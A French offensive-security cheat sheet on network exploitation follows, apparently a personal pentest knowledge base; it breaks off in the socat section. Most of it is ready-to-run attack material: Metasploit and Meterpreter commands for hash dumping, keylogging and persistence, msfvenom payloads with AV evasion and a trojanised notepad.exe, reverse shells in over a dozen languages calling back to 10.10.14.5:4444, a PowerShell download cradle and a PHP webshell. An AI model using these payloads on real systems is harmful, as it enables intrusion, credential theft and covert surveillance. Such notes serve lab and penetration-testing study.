









# Exploitation Réseau

> [!info] **C'est quoi ?**
> Cette note couvre l'exploitation réseau dans sa globalité : reconnaissance, **Metasploit** (maîtrise avancée), les **reverse/bind shells**, **TTY stabilization**, **Netcat/Socat**, **Pivoting & Tunneling** complet (SSH, Chisel, Ligolo-ng, Proxychains, Meterpreter routing), l'**exploitation web** (injection de commandes, SQLi, SSRF, LFI/RFI, upload bypass), le **Buffer Overflow** (stack, SEH, protections, ROP), et l'**exploitation sans Metasploit** (pwntools, payloads custom).

> **Outils associés :** [[Outils/Outil - Metasploit|Metasploit]] · [[Outils/Outil - Ligolo-ng|Ligolo-ng]] · [[Outils/Outil - Chisel|Chisel]] · [[Outils/Outil - Netcat|Netcat]] · [[Outils/Outil - Nmap|Nmap]] · [[Outils/Outil - socat|socat]] · [[Outils/Outil - ROPgadget|ROPgadget]] · [[Outils/Outil - radare2|radare2]] → voir [[Tools| Bibliothèque d'Outils]]

---

## 1. Vue d'ensemble de l'exploitation réseau

### 1.1 Positionnement dans la kill chain

L'exploitation réseau intervient après la **reconnaissance** et l'**acquisition de la surface d'attaque**. C'est le moment où l'on transforme une vulnérabilité identifiée en accès effectif sur la cible.



### 1.2 Taxonomie des attaques réseau

| Catégorie | Vecteur d'attaque | Exemple classique | Sévérité |
|---|---|---|---|
| **Exploitation de service** | Vulnérabilité dans un service réseau | EternalBlue (SMB), BlueKeep (RDP) | Critique |
| **Injection de commandes** | Exécution de code via input utilisateur | `; cat /etc/passwd` | Critique |
| **Injection SQL** | Manipulation de requêtes SQL | `' OR 1=1--` | Critique |
| **SSRF** | Forcer le serveur à requêter des ressources internes | `http://169.254.169.254/latest/meta-data/` | Élevé |
| **LFI / RFI** | Inclusion de fichiers distants/locaux | `../../../../etc/passwd` | Élevé |
| **Upload non sécurisé** | Envoi de fichiers malveillants | Webshell `.php` | Élevé |
| **Buffer Overflow** | Corruption de mémoire | Écrasement d'EIP/RIP | Critique |
| **Man-in-the-middle** | Interception / modification du trafic | ARP spoofing, DNS spoofing | Élevé |

### 1.3 Decision flowchart — Quelle technique employer ?



## 2. Nmap & Scanning

> Fiche détaillée : [[Outils/Outil - Nmap|Nmap]]

### 2.1 Types de scan TCP

| Scan | Option | Mécanisme | Avantages | Inconvénients |
|---|---|---|---|---|
| **SYN** | `-sS` | Envoie SYN, attend SYN-ACK, envoie RST | Rapide, discret (half-open) | Nécessite root |
| **Connect** | `-sT` | Three-way handshake complet | Fonctionne sans root, travers SOCKS | Très bruyant, logged |
| **ACK** | `-sA` | Envoie ACK | Map les règles de firewall (stateful) | Ne distingue pas ouvert/fermé |
| **FIN** | `-sF` | Envoie FIN | Évite certains filtres simples | Lent, peu fiable |
| **NULL** | `-sN` | Sans flags | Évite les filtres basiques | Lent, peu fiable |
| **Xmas** | `-sX` | FIN+PSH+URG | Comportement RFC non standard | Lent, peu fiable |

### 2.2 Types de scan UDP

| Scan | Option | Remarque |
|---|---|---|
| UDP standard | `-sU` | Lent (1 paquet/s par port par défaut) |
| UDP avec version | `-sU -sV` | Nécessaire pour détecter DNS, SNMP, TFTP |
| Top ports UDP | `--top-ports 20` | Réduit drastiquement le temps |

> [!warning] UDP est ~20x plus lent que TCP. Toujours commencer par `--top-ports` ou un scan ciblé.

### 2.3 Timing & performance

| Flag | Niveau | Description |
|---|---|---|
| `-T0` | Paranoid | 5 min/port (IDS evasion) |
| `-T1` | Sneaky | 15 s/port |
| `-T2` | Polite | 0.4 s/port |
| `-T3` | Normal | Par défaut |
| `-T4` | Aggressive | Recommandé en lab/confiance |
| `-T5` | Insane | 200 ms/port (risque de drop) |
| `--min-rate 1000` | Fixe | Garantit au minimum 1000 paquets/s |
| `--max-retries 2` | Réduit | Limite les retransmissions |

### 2.4 NSE Scripts — sélection par catégorie

```bash
# Découverte de services et versions
nmap -sV -sC 10.10.10.10
nmap -sV --version-intensity 5 10.10.10.10

# Scripts de vulnérabilité
nmap --script "vuln" -p 445,135,3389 10.10.10.10
nmap --script "smb-vuln-ms17-010" -p 445 10.10.10.10

# Dénombrement SMB
nmap --script "smb-enum-shares,smb-enum-users" -p 445 10.10.10.10

# Enumération HTTP
nmap --script "http-enum,http-headers,http-methods" -p 80,443 10.10.10.10

# Brute force
nmap --script "ssh-brute" -p 22 10.10.10.10
nmap --script "http-brute" -p 80 10.10.10.10
```

### 2.5 Banner grabbing & service detection

```bash
# Détection précise de version
nmap -sV -sC -p 22,80,443,8080 10.10.10.10

# Grabbing manuel avec Netcat
nc -nv 10.10.10.10 22          # affiche le banner SSH
nc -nv 10.10.10.10 80          # puis envoyer GET / HTTP/1.1
curl -I http://10.10.10.10     # headers HTTP

# Détecter le type d'OS
nmap -O --osscan-guess 10.10.10.10
```

### 2.6 Scan complet — template réutilisable

```bash
# Phase 1 : découverte rapide
nmap -sn -T4 10.10.14.0/24                         # ping sweep
nmap -sS -T4 --top-ports 1000 -oN quick.txt 10.10.14.0/24

# Phase 2 : scan approfondi des ports ouverts
nmap -sS -sV -sC -T4 -p 22,80,135,139,443,445,3306,3389,8080 \
  -oN detailed.txt 10.10.14.0/24

# Phase 3 : vulnérabilités
nmap --script vuln -p <ports> -oN vulns.txt 10.10.14.0/24
```

## 3. Metasploit — Maîtrise

> Fiche détaillée : [[Outils/Outil - Metasploit|Metasploit]]

### 3.1 Architecture



**Principaux types de modules :**

| Module | Rôle | Exemple |
|---|---|---|
| **Exploit** | Exploite une vulnérabilité | `exploit/windows/smb/ms17_010_eternalblue` |
| **Payload** | Code exécuté après exploitation | `windows/x64/meterpreter/reverse_tcp` |
| **Auxiliary** | Scan, fuzzing, brute force | `auxiliary/scanner/smb/smb_version` |
| **Post** | Post-exploitation | `post/multi/recon/local_exploit_suggester` |
| **Encoder** | Encode le payload pour évasion | `x64/xor_dynamic` |
| **Evasion** | Techniques d'évasion AV | Encoders + options evasion |

### 3.2 Staged vs Stageless

| | Staged | Stageless |
|---|---|---|
| **Nom msfvenom** | `reverse_tcp` (avec `/`) | `reverse_tcp` (avec `_`) |
| **Principe** | Petit stager → télécharge le stage complet | Tout le payload en un seul bloc |
| **Taille** | Petite (~200-350 octets) | Grosse (~800-500 octets) |
| **Risque** | Dépend du serveur C2 au moment de l'exécution | Plus stable une fois envoyé |
| **Faisabilité** | Nécessite une connexion sortante | Fonctionne même sans stabilité |
| **Utilisation** | **Par défaut** — la plupart du temps | Quand on doit tout envoyer en 1 shot |

```bash
# Exemple : même payload, deux noms
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x LPORT=4444 -f raw  # staged
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=x LPORT=4444 -f raw  # stageless
```

### 3.3 Workflow complet

```bash
msfconsole -q

# 1. Trouver un exploit
search type:exploit platform:windows smb
search eternalblue
search cve:2021
search type:exploit platform:linux kernel

# 2. Charger
use exploit/windows/smb/ms17_010_eternalblue

# 3. Configurer
show options
set RHOSTS 192.168.1.20
set LHOST 10.10.14.5
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set Target 2

# 4. Vérifier et lancer
show payloads
check
exploit
```

### 3.4 La session Meterpreter — commandes avancées

```bash
# --- Information ---
getuid                 # identité courante
sysinfo                # info système (OS, archi, domaine)
getprivs               # privilèges du processus courant
getenv                 # variables d'environnement
enumdesktops           # sessions interactives

# --- Élévation ---
getsystem              # tenter l'élévation via token

# --- Énumération ---
hashdump               # dump les hashes SAM
run post/multi/recon/local_exploit_suggester
run post/windows/gather/credentials/windows_autologon

# --- Navigation ---
cd C:\\                # changer de répertoire
ls / pwd / search -f *.txt

# --- Exécution ---
shell                  # shell natif Windows/Linux
execute -f cmd.exe -i -H
migrate <PID>          # migrer vers un autre processus
migrate -N explorer.exe

# --- Fichiers ---
download C:\\flag.txt /tmp/
upload /tmp/payload.exe C:\\Windows\\Temp\\
edit C:\\inetpub\\wwwroot\\backdoor.php

# --- Réseau ---
portfwd add -l 8080 -p 80 -r 10.0.0.5
portfwd list
run autoroute -s 10.0.0.0/24

# --- Persistance ---
run persistence -U -i 10 -p 4444 -r 10.10.14.5

# --- Interaction ---
screenshot / keyscan_start / keyscan_dump / webcam_snap

# --- Session management ---
background
sessions -l / -i 1 / -k 1 / -u 1
```

### 3.5 msfvenom — Génération de payloads

```bash
# --- Linux ---
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell32.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell_plain.elf

# --- Windows ---
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f dll -o shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f msi -o shell.msi
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f psh -o shell.ps1

# --- Web ---
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war -o shell.war
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw -o shell.php
msfvenom -p python3/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw -o shell.py

# --- Sans meterpreter (compatibilité maximale) ---
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell.elf

# --- Encodage / évasion ---
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x LPORT=4444 \
         -e x64/xor_dynamic -i 5 -f exe -o shell_encoded.exe

# --- Intégration dans un binaire légitime ---
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x LPORT=4444 \
         -x notepad.exe -k -f exe -o notepad_malware.exe

# --- Vérifier un payload ---
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x LPORT=4444 --payload-options
msfvenom --list payloads | grep java
msfvenom --list formats
msfvenom --list encoders
```

### 3.6 Handlers — réceptionner les connections

```bash
# --- Handler Metasploit ---
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
set ExitOnSession false
exploit -j       # lancer en arrière-plan

# --- Handler pour un payload non-Metasploit ---
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
exploit
```

### 3.7 Resource scripts — automatisation

```bash
# --- Contenu de handler.rc ---
# use exploit/multi/handler
# set payload linux/x64/shell_reverse_tcp
# set LHOST 10.10.14.5
# set LPORT 4444
# set ExitOnSession false
# exploit -j

msfconsole -q -r handler.rc

# --- Contenu de workflow.rc ---
# use exploit/multi/handler
# set payload windows/x64/meterpreter/reverse_tcp
# set LHOST 10.10.14.5
# set LPORT 4444
# set ExitOnSession false
# exploit -j
# sleep 30
# sessions -l
# sessions -i -1
# run post/multi/recon/local_exploit_suggester
```

---

## 4. Reverse Shells

> Fiche détaillée : [[Techniques/Reverse Shells|Reverse Shells]]

### 4.1 Principe



### 4.2 Listener

```bash
# Netcat classique
nc -lvnp 4444
# Netcat avec SSL
ncat -lvnp 4444 --ssl
# Socat (plus robuste)
socat TCP-LISTEN:4444,fork STDOUT
# Metasploit handler (cf. section 3.6)
```

### 4.3 Reverse shells — Linux

```bash
# --- Bash (le plus courant) ---
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
/bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1

# --- sh ---
/bin/sh -i >& /dev/tcp/10.10.14.5/4444 0>&1

# --- Python 3 ---
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# --- Python 2 ---
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# --- Perl ---
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# --- Ruby ---
ruby -rsocket -e'f=TCPSocket.open("10.10.14.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# --- Netcat (si -e supporte) ---
nc -e /bin/sh 10.10.14.5 4444

# --- Netcat sans -e (mkfifo) ---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f

# --- PHP ---
php -r '$sock=fsockopen("10.10.14.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# --- Java (Runtime) ---
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'");
p.waitFor();

# --- Groovy ---
String host="10.10.14.5";int port=4444;String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());while(si.available()>0)
po.write(si.read());so.flush();po.flush();Thread.sleep(50);
try{p.exitValue();break;}catch(Exception e){}};

# --- Lua ---
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.14.5','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 4.4 Reverse shells — Windows

```powershell
# --- PowerShell one-liner (classique) ---
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()

# --- PowerShell Encode Base64 ---
$b64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))
powershell -NoP -NonI -W Hidden -Enc $b64

# --- PowerShell Download Cradle ---
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/rev.ps1')"

# --- Netcat (upload nc.exe dabord) ---
nc.exe 10.10.14.5 4444 -e cmd.exe
```

### 4.5 Reverse shells — Web

```php
<!-- PHP Webshell -->
<?php
$sock = fsockopen("10.10.14.5", 4444);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

---

## 5. Bind Shells

### 5.1 Principe



### 5.2 Netcat bind shell

```bash
# --- Sur la cible (listener) ---
nc -lvnp 4444 -e /bin/sh

# --- Sur Kali (connexion) ---
nc 10.10.10.10 4444

# --- Bind shell sans -e (mkfifo) ---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -l 4444 >/tmp/f
```

### 5.3 msfvenom bind payloads

```bash
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -f elf -o bind.elf
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind.exe
msfvenom -p windows/x64/meterpreter_bind_tcp LPORT=4444 -f exe -o bind_msf.exe

# Puis se connecter depuis Kali :
use exploit/multi/handler
set payload linux/x64/shell_bind_tcp
set RHOSTS 10.10.10.10
set LPORT 4444
exploit
```

### 5.4 Quand utiliser un bind shell ?

| Scénario | Reverse | Bind |
|---|---|---|
| Pare-feu sortant restrictive | Bloqué | Fonctionne |
| Pas de pare-feu sur la cible | Préférable | Fonctionne |
| NAT sortant | Problématique | Fonctionne |
| Connexion depuis l'extérieur | Direct | Nécessite port forwarding |

---

## 6. TTY Stabilization

### 6.1 Workflow complet — Linux

```bash
# --- Étape 1 : obtenir un TTY basique ---
python3 -c 'import pty; pty.spawn("/bin/bash")'
# alternatives :
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import os,pty;os.dup2(0,1);pty.spawn("/bin/bash")'
script /dev/null -c bash

# --- Étape 2 : suspendre le shell (Ctrl+Z) ---

# --- Étape 3 : configurer le terminal local ---
stty raw -echo; fg

# --- Étape 4 : définir le TERM et la taille ---
export TERM=xterm
stty rows 40 cols 130
```

### 6.2 Workflow avec rlwrap (plus propre)

```bash
sudo apt install rlwrap
rlwrap nc -lvnp 4444
# → permet d'utiliser les flèches (up/down) dans le shell
```

### 6.3 Workflow avec socat (PTY complet)

```bash
# --- Kali : serveur socat ---
socat file:`tty`,raw,echo=0 tcp-listen:4444

# --- Cible : client socat ---
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.5:4444
```

### 6.4 Windows — ConPTY

```powershell
# ConPTY est le nouveau PTY de Windows 10+
# Via le script Invoke-ConPTY (GitHub)
# Ou via chisel + SSH
# Alternative : pwsh -NoProfile -Command "..."
```

### 6.5 Vérification que le shell est correct

```bash
echo $TERM         # doit retourner "xterm"
stty size          # doit retourner "40 130"
whoami             # fonctionne sans erreur
python -c 'import pty'  # fonctionne
```

---

## 7. Netcat & Socat

### 7.1 Netcat — Référence complète

> Fiche détaillée : [[Outils/Outil - Netcat|Netcat]]

| Option | Description |
|---|---|
| `-l` | Mode listener (écoute) |
| `-n` | Pas de résolution DNS |
| `-v` | Verbeux |
| `-p <port>` | Spécifier le port |
| `-e <cmd>` | Exécuter une commande après connexion |
| `-k` | Keep-alive (listener persistant) |
| `-s <addr>` | Source IP pour la connexion sortante |
| `-u` | UDP au lieu de TCP |
| `-w <sec>` | Timeout en secondes |
| `-z` | Zero-I/O mode (scan de port) |

```bash
# --- Écouter ---
nc -lvnp 4444
nc -lvnp 4444 -k
nc -lvnp 4444 -e /bin/sh

# --- Client ---
nc 10.10.10.10 4444
nc -v 10.10.10.10 4444

# --- Transfert de fichier ---
nc -lvnp 4444 > fichier_recu      # récepteur
nc 10.10.14.5 4444 < fichier_envoye  # émetteur

# --- Scan de ports ---
nc -zv 10.10.10.10 1-1000
nc -zv 10.10.10.10 22 80 443
```

### 7.2 Socat — Référence complète

> Fiche détaillée : [[Outils/Outil - socat|socat]]

```bash
# --- Port forwarding basique ---
socat TCP-LISTEN:8080,fork TCP:10.10.10.10:80

# --- Reverse shell avec socat ---
# Kali :
